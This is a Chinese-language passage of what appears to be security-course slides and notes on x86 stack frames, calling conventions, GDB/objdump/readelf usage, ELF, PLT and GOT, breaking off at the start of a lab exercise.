
## call指令与返回指针
指令指针已执行上一条指令，当前指向内存地址0x8048205，该地址存储的指令为`call func_x`。call指令用于将指令指针重定向至目标函数的代码段，主要承担两项功能：
- 取call指令后紧随的下一条指令的地址，将其压入栈中作为返回指针；
- 将指令指针重定向到被调用函数的入口地址。
返回指针供被调用函数在执行完成后将控制权交还给调用方。通常函数调用结束后都需要返回控制权：例如我们调用函数完成拼接两个字符串这类简单操作，都希望在操作执行完成后重新获取控制权。为确保能顺利取回控制权，我们需要提供返回地址。以当前场景为例，call指令会将下一条待执行指令的地址（即0x8048207）压入被调用函数的栈帧中，该地址后续会被用于将控制权返回给调用方。如幻灯片所示，当前ESP指向返回main()函数的返回指针。随后call指令会将指令指针重定向到被调用函数的起始内存地址。
## 过程序言 – 第一步
### 代码段
### main()
``` 0x8048202: mov %eax, %edi 0x8048204: push %edi 0x8048205: call func_x 0x8048207: xor eax, eax ... # truncated for space... ```
### func_x()
``` 0x8048801: push %ebp 0x8048802: mov %esp, %ebp 0x8048804: sub 0x20, %esp ... # func_x code to execute 0x8048903: mov %ebp, %esp 0x8048905: pop %ebp 0x8048906: ret ```
> 指令指针已跳转至func_x的代码段。当前EBP寄存器存储的地址被压入栈中，作为保存的帧指针（SFP），这是过程序言的第一步。

## 过程序言 – 第一步
现在控制权已移交至func_x()函数，程序开始执行编译器自动添加的过程序言代码。过程序言是一组短指令，用于构建被调用函数的栈帧。需要注意这类编译器添加的代码通常出现在内部函数中，而strcpy()、printf()这类动态链接函数一般不需要这段代码。当前基指针（EBP）指向main()函数的栈帧内部，我们需要将其调整为指向func_x的栈帧。调整前需要先保存EBP当前指向的main()栈帧的地址，以便后续恢复。为实现这一目标，我们执行过程序言的第一步：`push %ebp`，该指令当前由指向0x8048801的指令指针执行。这条指令会将EBP寄存器存储的栈地址压入栈中，作为保存的帧指针（SFP），后续将使用该值恢复EBP的原始指向。在整个func_x函数调用期间，EBP始终指向SFP。这一点在32位应用中尤为重要：若函数接收了传入参数，可通过EBP的正偏移量（如EBP+8、EBP+12）访问这些参数。而在64位应用中，函数参数通常通过r8、r9等通用寄存器传递。如前所述，由于执行了push指令，当前ESP指向SFP。
## 过程序言 – 第二步
### 代码段
### main()
``` 0x8048202: mov %eax, %edi 0x8048204: push %edi 0x8048205: call func_x 0x8048207: xor eax, eax … # truncated for space… ```
### func_x()
``` 0x8048801: push %ebp **0x8048802: mov %esp, %ebp** 0x8048804: sub 0x20, %esp … # func_x code to execute 0x8048903: mov %ebp, %esp 0x8048905: pop %ebp 0x8048906: ret ```
> 过程序言的第二步中，ESP寄存器的值会被复制到EBP寄存器中，此时两个寄存器均指向栈上的SFP。

## 过程序言 – 第二步
当前指令指针指向内存地址0x8048802的过程序言第二步，该地址存储的指令为`mov %esp, %ebp`。这条指令会将ESP寄存器存储的地址复制到EBP寄存器中。如幻灯片中的栈示意图所示，执行后EBP与ESP均指向上一条指令压入栈的SFP。如前所述，在整个func_x函数调用期间，EBP始终指向SFP。如果func_x调用了其他函数，被调用函数会有自己的过程序言，它会相应地调整栈指针，同时负责在执行完毕后将栈寄存器恢复到调用前的状态，这就形成了调用链。只要每个函数都能正确维护调用方的状态，栈展开过程就不会出现问题。
## 栈内存分配
``` Code Segment main() 0x8048202: mov %eax, %edi 0x8048204: push %edi 0x8048205: call func_x 0x8048207: xor eax, eax … # truncated for space... func_x() 0x8048801: push %ebp 0x8048802: mov %esp, %ebp 0x8048804: sub 0x20, %esp … #func_x code to execute 0x8048903: mov %ebp, %esp 0x8048905: pop %ebp 0x8048906: ret ```

## 栈内存分配
由于栈从高地址内存向低地址内存增长，我们需要对栈指针做减法来分配缓冲区。当前指令指针指向内存地址0x8048804，该地址存储的指令为`sub 0x20, %esp`。这条指令会将ESP寄存器存储的地址减去32字节，执行后ESP指向EBP所指向的SFP位置往低地址方向32字节处（即更靠近栈顶）。此时我们已经完成了一个32字节缓冲区的分配，ESP也如预期般指向当前栈帧的顶部。至此，过程序言执行完毕，被调用函数的缓冲区也已分配完成。幻灯片中func_x函数代码块中间的“... # func_x代码执行区域”为func_x的可执行代码段，会按预期执行。当该函数执行完所有代码后，就需要将控制权返回给main()函数。接下来我们将介绍**过程尾声**，它负责销毁被调用函数的栈帧、将栈指针恢复到调用前的状态，并将代码执行权交还给调用方。


## 过程结语——第一步
```asm
# main()
0x8048202: mov %eax, %edi
0x8048204: push %edi
0x8048205: call func_x
0x8048207: xor eax, eax
...
# truncated for space...
```
```asm
# func_x()
0x8048801: push %ebp
0x8048802: mov %esp, %ebp
0x8048804: sub 0x20, %esp
...
# func_x code to execute
0x8048903: mov %ebp, %esp
0x8048905: pop %ebp
0x8048906: ret
```
> 将ESP移至指向SFP的位置。
| 位置 | 内容 |
| --- | --- |
| 栈顶 | 旧数据 |
|  | SFP |
|  | 0x8048207 |
|  | 返回指针 |
|  | EDI的内容 |
|  | main()的指令指针 |
| 栈底 | EBP/ESP栈 |
我们现在已经到达了编译器插入的、被称为过程结语的代码序列。过程结语本质上会撤销过程序曲中执行的步骤。当前指令指针（IP）指向地址0x8048903，该地址存储着指令`mov %ebp, %esp`。这是过程结语的第一步。该指令会将EBP中存储的地址（仍指向SFP）复制到ESP中。现在ESP和EBP都指向栈上的SFP位置。栈顶被标记为“旧数据”的区域只是之前使用过的内存残留。旧数据仍然存在，但进程不再需要它。

## 过程结语——第二步

现在IP已经递增到地址0x8048905，该地址存储着指令`pop %ebp`。这是过程结语的第二步。pop指令会取出栈指针指向的值，并将其放入指定寄存器中。在结语的这一步中，我们取出SFP并将其弹出到EBP寄存器中，将EBP恢复到main()函数栈帧中的先前位置。

## 过程结语——第三步
```asm
# main()
0x8048202: mov %eax, %edi
0x8048204: push %edi
0x8048205: call func_x
0x8048207: xor eax, eax
...
# truncated for space...
```
```asm
# func_x()
0x8048801: push %ebp
0x8048802: mov %esp, %ebp
0x8048804: sub 0x20, %esp
...
# func_x code to execute
0x8048903: mov %ebp, %esp
0x8048905: pop %ebp
0x8048906: ret
```
> 返回指针将指令指针重定向到调用者。


IP、ESP、EBP 栈
我们现在处于过程结语的第三步。IP指向地址0x8048906，该地址存储着指令`ret`。ret指令是“返回”的缩写，是一条特殊指令，它会取出当前由栈指针指向的值（本例中为0x8048207），并将指令指针重定向到该地址。这是确保调用者重新获得控制权的关键操作。如果返回指针被有意或无意覆盖，可能会对进程造成灾难性后果。过程结语的第一步和第二步也可以被反汇编为`leave`指令，该指令会执行与`mov %ebp, %esp`和`pop %ebp`相同的操作，之后仍会跟随一条ret指令。`enter`指令与过程序曲的关系也是如此，不过我们本节不会遇到该指令。

## 返回调用者
```asm
# main()
0x8048202: mov %eax, %edi
0x8048204: push %edi
0x8048205: call func_x
0x8048207: xor eax, eax
...
# truncated for space...
```
```asm
# func_x()
0x8048801: push %ebp
0x8048802: mov %esp, %ebp
0x8048804: sub 0x20, %esp
...
# func_x code to execute
0x8048903: mov %ebp, %esp
0x8048905: pop %ebp
0x8048906: ret 4 ???
```
> 控制权已返回调用者，栈寄存器也已恢复，但ESP似乎指向了一个旧参数。
> - 我们还需要指向此处吗？

在这张幻灯片中，我们可以看到IP重新指向了main()函数的地址0x8048207，该地址正好位于调用func_x()之后。栈寄存器ESP和EBP指向它们在main()函数栈帧中的先前位置。我们已经完整梳理了函数调用的过程以及栈操作的工作原理。注意，ESP当前指向栈上标记为“EDI的内容”的位置。如果你还记得，我们在内存地址0x8048204处将该值压入了栈，它可能是传递给func_x()的参数。如果是这种情况，我们很可能不再希望ESP指向它，ESP需要由代码进行适当调整。一种解决方案是在过程结语的第三步使用`ret 4`指令代替普通的`ret`，这会使栈指针比正常情况下再移动4字节，将“EDI的内容”变量标记为失效。该操作也可以在被调用函数返回控制权后，由调用函数处理，例如使用`add 4, %esp`这样简单的指令即可实现相同目标。何种行为由什么决定？请参阅下一张关于调用约定的幻灯片。

## 调用约定
- 定义函数接收和返回数据的方式
- 参数被放置在寄存器或栈上
- 定义这些数据的放置顺序
- 包含在函数结语期间或之后调整栈指针以跳过参数的操作
- 最常见的调用约定：
  - cdecl：调用者从右到左向被调用函数放置参数，且由调用者清理栈
  - stdcall：调用者从右到左放置参数，且由被调用函数负责清理栈
理解参数如何传递给被调用函数、函数如何返回数据非常重要，这由程序使用的调用约定决定。存在多种调用约定，本节我们将讨论x86架构下最常见的两种。cdecl调用约定在C程序中十分常见，它定义参数向被调用函数传递的顺序为在栈上从右到左放置。使用cdecl时，调用函数负责清理栈。正如我们在整个课程中所见，EAX寄存器用于向调用者返回值，过程结语的相关数据会在编译时自动添加到程序中，用于处理栈的清理。stdcall调用约定与cdecl类似，但区别在于函数执行完成后由被调用函数负责清理栈。EAX同样用于将被调用函数的返回值传回调用者。此外还会遇到syscall、optlink、fastcall等其他调用约定。

## 工具：GNU调试器（GDB）
- 适用于UNIX系统的软件调试器
- 作者：理查德·斯托曼（Richard Stallman）
- 支持调试C、C++和Fortran编程语言
- 免费软件！
- 支持附加到进程、打开进程、查看寄存器、补丁修改等功能
GNU调试器（GDB）是一款可在各类UNIX操作系统上运行的自由软件调试器。MinGW是一款将部分GDB功能移植到Windows平台的工具，可在http://www.mingw.org获取。GDB最初由理查德·斯托曼创建，之后有大量贡献者参与开发。GDB支持调试用C、C++和Fortran编写的程序，同时对PASCAL、Modula-2和Ada也有一定支持。GDB基于GNU通用公共许可证作为免费软件分发。使用GDB时，你可以选择附加到已运行的进程/程序，也可以用GDB打开一个程序，从而实现对程序执行的监控和交互。在GDB下调试程序时有很多可选操作，比如让程序正常运行、根据设定条件暂停执行、在程序运行过程中打补丁，甚至逐指令单步执行程序。你还可以反汇编程序并显示其助记符指令、查看处理器寄存器、跟踪函数调用，以及使用其他诸多功能。本节我们将介绍GDB的一些较为实用的命令。

## GDB实用命令（1）
- 实用命令：
  - `disass <函数>` – 输出该函数的汇编指令
  - 例如：`disass main`
  - `break <函数>` – 当到达指定函数时暂停执行
  - 例如：`break main`
  - `print` – 输出寄存器及其他变量的内容
  - 例如：`print $eip`
  - `x/<数量>i <内存地址>` – 检查内存位置
  - 例如：`x/20i 0x7c87534d`
  - `info` – 输出寄存器及其他变量的内容和状态
  - 例如：`info registers`
  - `c` 或 `continue` – 在断点后继续执行
  - `si` – 单步执行一条指令
GDB有大量可用命令，你可以在运行GDB时输入`help`来浏览这些命令。也可以在未运行GDB时，在命令行输入`man gdb`来查看GDB的手册页。

### 命令：disass <函数> 或 <内存地址>
disassemble命令可以让你查看构成特定函数或内存区域的助记符指令。你可以指定函数名（如`disass main`）或内存地址（如`disass 0x7c8751b3`）来显示组成该函数的指令。建议编写一个简单的程序（比如标准的“Hello World”程序），来查看调试器中基础反汇编的样子。

### 命令：break <函数>
break命令有多种用法，最常见的用法是让GDB在到达特定函数或内存地址时中断并暂停执行。例如，你可以输入`break main`，只要main()函数被命中，GDB就会暂停执行。你也可以使用条件断点，比如可以设置仅当循环中的计数器达到某个数值、或子例程的值为1或0时GDB才中断，该功能在调试或测试程序时非常实用。当在内存地址上设置断点时，需要加星号前缀来告诉GDB该内存地址不应被解释为函数名（例如`*0x8048430`）。

### 命令：print
print命令最常用于输出表达式的值，例如`print $eip`命令可以显示EIP寄存器当前存储的数值。


### 命令：x
x命令可用于检查内存。例如，命令`x/20i 0x7c87534d`会打印从指定地址开始的20条汇编指令。常用选项包括：`x/x`用于以十六进制查看双字（DWORD），`x/s`用于查看ASCII字符串，`x/i`用于查看指定位置的指令。斜杠后可选填写数值，可指定单次查看的双字、字符串或指令数量。

## 命令：info
info命令可用于获取程序多方面的信息。`info registers`命令可显示处理器寄存器的内容。`info symbol <内存地址>`命令可显示该地址存储的符号名称。`info function`命令可显示所有已定义函数及其内存地址。通过指针调用的函数可能无法通过此命令显示，且其他二进制文件可能已被去除符号，在没有逆向工程或无法访问调试符号的情况下，可获取的信息十分有限。

## 命令：c或continue
c或continue命令可在断点触发后继续执行程序。

## 命令：si
si命令是“单步指令”的缩写，功能与其名称含义完全一致。若当前处于断点处，可执行该命令单步执行一条指令。你也可以指定参数N，来单步执行指定数量的指令（例如`si 6`）。

## GDB实用命令（2）
更多实用命令：
- backtrace或bt – 打印当前调用链中返回调用者的返回指针
- 例如：`bt`
- info function – 打印所有函数
- 例如：`info func`
- 该命令不会打印已被去除符号的函数，仅显示位于过程链接表中的函数
- set disassembly-flavor <intel或att> – 切换使用的汇编语法
- 例如：`set disassembly-flavor att`
- info breakpoints和del breakpoints – 列出并删除断点
- 例如：`del breakpoint 3`
- run – 运行或重启程序

### 命令：backtrace或bt
backtrace命令会打印当前调用链中的所有返回指针。举个例子：如果函数1调用函数2，随后函数2调用函数3，backtrace命令会先打印返回函数2的指针，再打印返回函数1的指针。

### 命令：info function
如果程序未被去除符号表，该命令会列出程序中所有已使用的函数，包括动态解析的函数和内部函数。

### 命令：set disassembly-flavor <intel或att>
该命令可将反汇编语法切换为intel语法或att语法。

### 命令：info breakpoints和del breakpoints
info breakpoints命令可列出当前设置的所有断点，del breakpoints命令可用于删除一个或多个断点。

### 命令：run
运行或重启程序。

## x86汇编语言
- 低级编程语言
- 使用助记符指令代表机器码
- 针对处理器操作进行优化
- 适用场景：
  - 设备驱动程序
  - 需要硬件访问权限的电子游戏
- 可实现更快的硬件访问
- 与高级语言无抽象层
- 对速度要求极高的场景

### 低级编程语言
汇编语言介于高级语言（如C++、Java和C#）与机器码之间，是针对某一类处理器（如x86系列）专属的低级编程语言。汇编代码使用针对处理器架构专属的短助记符指令/操作码。

### 可实现更快的硬件访问
使用汇编语言可以更直接快速地访问硬件，无需通过高级语言进行多层级解释。显而易见，这种方式加快了硬件访问速度，因为减少了完成任务所需的汇编指令数量。举个简单的例子，汇编可以更高效地向输入/输出（I/O）端口写入数据。本质上，只要对速度要求极高的场景，就可以用汇编编写整个程序或程序的部分模块来提升运行速度。设备驱动程序和电子游戏开发是汇编常用的场景。汇编编程往往针对特定机器或操作系统，这会降低程序在不同操作系统间的可移植性，驱动程序开发就是典型的例子。比如某无线网卡要求适配特定版本的Linux系统，该驱动程序可能无法在不同架构和机型间移植，但好处是运行速度快，且能实现通过高级语言难以完成的操作。

## AT&T与Intel语法对比（上）
- **AT&T**
  - `sub $0x48, %esp`
  - `mov %esp, %ebp`
  - *源操作数* *目标操作数*
  - `$` = 立即操作数
  - `%` = 寄存器操作数
  - `()` = 指针
- **Intel**
  - `sub esp, 0x48`
  - `mov ebp, esp`
  - *目标操作数* *源操作数*
  - `[]` = 指针

在多数*NIX调试器中，AT&T是默认使用的x86语法；而Windows调试器（如WinDbg和Immunity Debugger）通常默认使用Intel语法。使用AT&T语法时，%符号位于所有操作数之前，待使用的值存储在寄存器中，如%esp或%edi。如果目标是寄存器，也适用此规则。小写字母"l"代表长整型（long）。$符号代表立即操作数，而非存储在寄存器中的值或地址。例如，$4是会在汇编代码中显示的立即操作数，可被用在`mov $4, %eax`这类指令中，作用是将数值4移入EAX寄存器。在AT&T语法中，源操作数在前，目标操作数在后，例如指令`mov %edx, %eax`可以理解为“把这里的内容，移到那里”。而在Intel语法中，源操作数和目标操作数的顺序是相反的，第一个操作数是目标，第二个是源，例如可以理解为“移到这里，那里是源”。你还会注意到Intel语法不使用`$`、`%`和小写字母"l"符号，取而代之的是，你会看到包含DWORD、QWORD这类助记符的指令。

## AT&T与Intel语法对比（下）
- **操作数大小**
  - AT&T使用指令名称的最后一个字符表示操作数大小，例如`b`代表字节（byte），`w`代表字（word），`l`代表长整型（long）
  - 例如：`movl $0x8028024, (%esp)`
  - Intel使用"byte ptr"、"word ptr"或"dword ptr"表示操作数大小
  - 例如：`mov DWORD PTR [esp], 0x8028024`

### 操作数大小
AT&T使用指令名称的最后一个字符（如`b`代表字节、`w`代表字、`l`代表长整型）来限定被移动或计算的值的大小。1字节等于8比特，1字等于16比特，1长整型值等于32比特，也称为双字（DWORD）。例如，`movl $0x8028024, (%esp)`这条指令的作用是将长整型（32位）内存地址0x8028024移入ESP寄存器指向的地址。括号表示这是指针，意味着不需要将地址复制到ESP寄存器本身，而是复制到ESP所存储的地址所指向的位置。Intel语法使用不同的助记符实现相同的指令功能，上述AT&T示例中的指令用Intel语法书写就是`mov DWORD PTR [esp], 0x8028024`，表示将双字地址0x8028024移入ESP寄存器指向的内存地址，功能与AT&T指令完全一致。Intel语法不使用`b`、`w`、`l`来表示被移动或计算的值的大小，而是使用BYTE、WORD、DWORD和QWORD。

## 链接器与加载器
- 链接器与加载器的区别
  - 链接器：将函数名称与其实际内存位置关联
  - 加载器：将程序从存储设备加载到内存中
- 符号解析
  - 在运行时解析函数地址
- 重定位
  - 地址冲突时需要进行重定位
- 名称修饰（不要与函数重载混淆）
  - 即，C语言中的"main"函数可能会被修饰为类似"_main"或"Z__main__"的形式

链接器的主要职责是执行符号解析，即获取函数的符号名称并将其关联到实际的内存位置。举个例子，如果我们在程序中调用`printf()`函数，链接器需要从系统库中定位该函数的内存地址，随后在进程的内存中填充可写区域。加载器负责将程序从磁盘或其他辅助存储设备加载到内存中。

### 重定位
如果某个共享对象请求加载到已被占用的内存区域，就需要有控制机制允许该对象加载到其他内存区域。重定位通常被称为.reloc段，恰好具备这种能力。在现代系统中，程序通常会有一个期望的加载地址。如果该加载地址不可用，重定位段会将程序适配到新的地址空间。函数等项通过相对虚拟地址（RVA）引用，不会产生问题。因此，如果`math_calc()`函数的RVA是0x500，该RVA会加到最终使用的任意加载地址上。例如，如果程序的加载地址是0x800000，且`math_calc()`函数的RVA是0x500，那么它的真实地址就是0x800500。如果0x800000这个加载地址不可用，就需要选择0x400000这类新的加载地址，通过与重定位段配合修改调用地址。此时`math_calc()`函数的地址就变为0x400500。在Windows系统中，重定位过程被称为修复（fix-ups）。现代Windows系统几乎不需要进行修复，因为每个程序都拥有独立的地址空间。现代Linux系统也几乎不需要重定位ELF文件，共享库偶尔需要重定位，但期望的地址通常总是可用的。不过，对象文件中必须包含重定位支持，以备不时之需。

### 名称修饰
程序源代码中函数或其他过程/构造的名称，往往与符号表等位置看到的名称不同。例如，C语言源代码中的main函数可能会被修饰为

转换为目标文件后名为`_main`的标识符。这一过程有多种作用：其一是为程序内的标识符提供唯一性，避免名称冲突。试想如果调用一个被两个函数共用的名称，会引发怎样的后果。C等部分语言不支持多态，因此不需要名称修饰；但符号名称修饰还有其他原因。不同编程语言使用、且操作系统支持的函数调用约定可能存在差异。名称修饰可以为操作系统处理程序提供依据。例如，部分名称修饰方法会在名称前添加两个下划线`__`，而另一些则会在所有函数名称前加上`_Z`前缀。因此，主函数可能会变成`__main`或`_Zmain`，具体取决于编译程序所用的工具。所使用的名称修饰类型还可以让系统识别传入子例程参数的预期顺序，等等。

## **可执行与链接格式（ELF）**
- 可执行与链接格式
- 可执行与可重定位文件
- 可在运行时直接映射到内存
- 修改加载地址时仍可保留相对寻址
- 共享对象
- 主要用于存放共享函数
- a.out格式已过时，对动态链接的支持有限

ELF是许多UNIX操作系统用于支持动态链接、符号解析及其他多种功能的目标文件格式。目标文件包含多种元素，包括可执行程序的机器码、需要导入的符号、可导出的函数、调试信息、重定位信息以及头文件。文件若要能被链接，必须包含上述部分元素。ELF文件包含供链接器使用的一组节。由于缺乏动态链接支持，且对C++的支持存在问题，a.out目标文件格式在现代*基于UNIX的*操作系统中已很少见。a.out是“汇编器输出”的缩写，是一种过时的可执行文件和共享库文件格式。部分编译器在未指定输出文件时，仍默认使用这一命名规则。

### 可重定位ELF文件
可重定位ELF文件包含多个节，如目标代码、数据、需要解析或正在解析的符号、幻数及其他多种节。这些节都包含在ELF头文件中。可重定位文件可以在存在地址冲突时修改基地址，同时保持映射节或符号的相对地址不变。例如，若名为get_fork()的函数的相对地址是0x4000，预期被映射到基地址0x08000000，那么该场景下的绝对地址就是0x08004000。但如果文件采用可重定位格式，基地址可以被重定位到新的基地址，比如0x08040000，此时对应的绝对地址就变为0x08044000。

### 可执行ELF文件
可执行ELF文件的格式与可重定位ELF文件较为接近。二者的核心区别在于，可执行ELF文件可以在执行时直接映射到内存中。可执行ELF文件仅包含必要的节，如只读代码、数据、BSS段、虚拟寻址信息及其他相关内容，因此做了优化处理。

## **共享对象**
ELF共享目标文件同时包含可重定位文件和可执行文件的元素，包括ELF可执行文件中的程序头文件、可加载节，以及可重定位文件中包含的额外链接信息。共享对象本质上是供开发者使用的函数库。动态编译的程序依赖预置在目标系统中的系统库，这些库会在程序启动时加载进进程，其内部包含的函数名称也会按需动态解析。

## **过程链接表（PLT）**
- 过程链接表（PLT）：编译时生成的只读表，存储所有需要解析的必要符号，仅在收到函数调用请求时才执行解析（即延迟链接）
- 全局偏移表（GOT）：可写的内存段，用于存储指针，由动态链接器在符号解析过程中更新

过程链接表（PLT）是一个只读节，主要负责在程序运行时及运行后调用动态链接器，解析所请求函数的地址。这一过程不在编译时处理，因为此时共享库尚不可用，地址也未知。PLT的规模远大于GOT；但解析操作仅在首次调用目标函数时执行，可节省资源。每个程序都有仅属于自己的PLT。当发起符号解析请求时，调用函数会向PLT发起请求，同时将GOT的地址推入处理器寄存器。整体流程如下：
1）程序调用位于共享库内的函数，且需要获取该函数的绝对内存地址——例如printf()。
2）调用程序必须将GOT的地址推入寄存器，因为可重定位节可能仅包含相对虚拟地址（RVA），而非所需的32位基地址。
3）承接步骤1，请求被发送至PLT，PLT再将控制权转交至对应目标符号的GOT条目。如果这是首次请求该特定函数，则进入下一步；否则直接跳转至步骤5。
4）由于是首次请求该函数，GOT会将控制权交还PLT。具体操作是先将重定位表内对应条目的地址推入栈中，该地址供动态链接器用于符号解析。随后PLT调用动态链接器完成符号解析，解析成功后，目标函数的地址会被写入GOT条目中。
5）如果GOT已存储目标函数的地址，控制权可直接传递，无需动态链接器介入。

## **全局偏移表（GOT）**
程序运行时，动态链接器会填充一张名为全局偏移表（GOT）的表。动态链接器会获取所请求函数的绝对地址，并按需更新GOT。文件无需是可重定位的，因为GOT会接收来自过程链接表（PLT）的位置请求。大量函数不会在运行时提前解析，而是在首次调用目标函数时才完成解析。这一过程被称为延迟链接，可节省资源。

## **工具：objdump（1）**
- 显示目标文件信息
- 作者：Eddie C.
- 基于GNU通用公共许可证发布的免费软件
- 可执行反汇编
- GDB也支持反汇编，但使用objdump时无需执行程序
- 可输出“死代码清单”
- 可显示文件头、符号信息及其他内容

objdump是一款用于显示目标文件相关信息或内部内容的工具。用户可通过指定参数仅输出所需结果，或获取更全面的清单信息。该工具由Eddie C.开发，公开可查的关于他的信息并不多。该工具是基于GNU通用公共许可证发布的免费软件。能有如此出色的自由软件贡献者，实在令人惊叹！objdump最知名的功能是对目标文件执行反汇编，并以清晰简洁的清单形式提供头文件、节及符号的相关细节。若你希望在GDB这类调试器之外对二进制文件执行分析，且无需运行待分析程序，即可使用objdump替代GDB。这类反汇编通常被称为“死代码清单”，因为代码并不像在调试器中那样处于实时运行状态。下一节我们将介绍部分常用的objdump命令。


## 工具：objdump（二）
### 常用命令
- `objdump -d`：反汇编目标文件的代码段
- `objdump -h`：显示目标文件的所有段头信息
- `objdump -j <段名>`：指定要显示的特定段，例如`objdump -j .text -d ./<程序名>`可显示代码段的反汇编内容
### 命令：objdump -d
该命令用于反汇编并显示程序中使用的所有函数。使用`-D`参数可以获得更全面的列表。
### 命令：objdump -h
该命令显示所有段头信息，包括段的虚拟内存地址和大小信息。
### 命令：objdump -j
该命令仅显示程序中特定段的内容。例如，`objdump -j .text -d ./<程序名>`会显示代码段的反汇编结果。
## 工具：readelf
- readelf是用于显示ELF目标文件信息的工具
- 作者：Eric Youngdale 和 Nick Clifton
- 基于GNU通用公共许可证（GPL）发布的免费工具
- 可显示ELF头、段信息，包括GOT（全局偏移表）、PLT（过程链接表）、位置信息等
readelf工具显示的目标文件信息与objdump类似，选择使用哪个工具通常取决于个人偏好和使用习惯；不过每个工具都有一些独有的优势。readelf由Eric Youngdale和Nick Clifton开发，同样是基于GNU通用公共许可证的免费工具。我们使用readelf工具来查看全局偏移表（GOT）和过程链接表（PLT）中的符号表。使用`-x`参数可以指定要显示的段，例如我们使用`-x`参数来查看GOT段的内容。
## ELF演示（一）
### 操作指南
- 跟踪符号解析的运行行为，完成以下练习：
- 启动Kubuntu Gutsy VMware镜像中的命令行终端
- 切换到`/home/deadlist`目录
- 确认目录中存在名为"memtest"的程序
- 注意你的内存地址可能略有不同，但这不会影响你完成后续步骤
- 如果启动Gutsy Gibbon时收到提示，说明你已经复制了该虚拟机
进行一次练习来巩固这个流程。跟踪运行时符号解析的步骤是理解哪些区域可写、地址存储位置，以及积累GDB和汇编使用经验的最佳方式。安全研究要求你了解程序的执行路径，链接流程也不例外。首先启动Kubuntu镜像中的命令行终端，确保你位于`/home/deadlist`目录下，"memtest"程序应该已经存在。接下来几页我们将跟踪链接流程展示的部分行为。
## ELF演示（二）
1. 在GDB中输入`disas main`，找到以下内容后退出GDB：
```gdb
(gdb) x/i 0x80484a4
